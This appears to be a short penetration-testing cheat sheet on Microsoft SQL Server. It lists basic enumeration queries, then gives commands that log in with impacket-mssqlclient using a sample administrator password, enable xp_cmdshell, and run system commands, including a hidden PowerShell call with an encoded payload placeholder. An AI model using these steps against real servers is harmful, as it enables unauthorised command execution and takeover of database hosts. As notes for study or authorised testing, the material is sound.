 > Microsoft SQL Server is a proprietary relational database management system developed by Microsoft.


#SQL #MSSQL 

Database Version
```
SELECT @@VERSION;
```

View all databases
```mssql
SELECT name, database_id, create_date FROM sys.databases;
```

Use a database
```
USE database_name
```

Show all tables in database
```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```

Show all data in table
```
SELECT * FROM table_name;
```

Enabling `xp_cmdshell` feature
```bash
impacket-mssqlclient Administrator:Sussybaka123@192.168.69.123 -windows-auth -port 1433
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Executing Commands via `xp_cmdshell`
```bash
EXECUTE xp_cmdshell 'whoami';
```
```
EXECUTE xp_cmdshell 'powershell -nop -w hidden -e <encoded_payload>'
```